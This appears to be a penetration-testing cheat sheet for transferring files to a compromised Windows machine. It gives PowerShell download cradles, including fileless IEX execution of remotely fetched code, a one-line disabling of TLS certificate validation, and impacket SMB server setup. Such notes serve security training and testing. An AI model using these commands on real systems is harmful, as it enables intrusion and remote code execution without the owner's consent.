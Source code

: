 - File download 

```console
PS C:\victim> (New-Object Net.WebClient).DownloadFile('<Target File URL>','<Output File Name>')
ps C:\victim> (New-Object Net.WebClient).DownloadFileAsync('<Target File URL>','<Output File Name>')
```

- Fileless method 

```console
PS C:\victim> IEX (New-Object Net.WebClient).DownloadString('<Target File URL>')
PS C:\victim> (New-Object Net.WebClient).DownloadString('<Target File URL>') | IEX
```

- Invoke-WebRequest

```console
PS C:\victim> Invoke-WebRequest  <Target File URL> -OutFile <Output File Name>
```

More examples [here](https://gist.githubusercontent.com/HarmJ0y/bb48307ffa663256e239/raw/f1e0d1877d1b9dd6b3fc8bae18ff6cec6ea6eaa8/DownloadCradles.ps1).

## Troubleshooting

- Internet Explorer first-launch configuration has not been completed 

```console
PS C:\victim> Invoke-WebRequest <Target File URL> | IEX

Invoke-WebRequest : The response content cannot be parsed because the Internet Explorer engine is not available, or Internet Explorer's first-launch configuration is not complete. Specify the UseBasicParsing parameter and try again.

PS C:\victim> Invoke-WebRequest <Target File URL> -UseBasicParsing | IEX
```

- Certificate not trusted

```console
PS C:\victim> IEX(New-Object Net.WebClient).DownloadString('<Target File URL')

Exception calling "DownloadString" with "1" argument(s): "The underlying connection was closed: Could not establish trust relationship for the SSL/TLS secure channel."

PS C:\victim> [System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
```

## SMB downloads 

First create the server:
```console
zero@pio$ sudo impacket-smbserver share -smb2support /tmp/smbshare
```

Or:
```console
zero@pio$ sudo smbserver.py -smb2support CompData /tmp
```
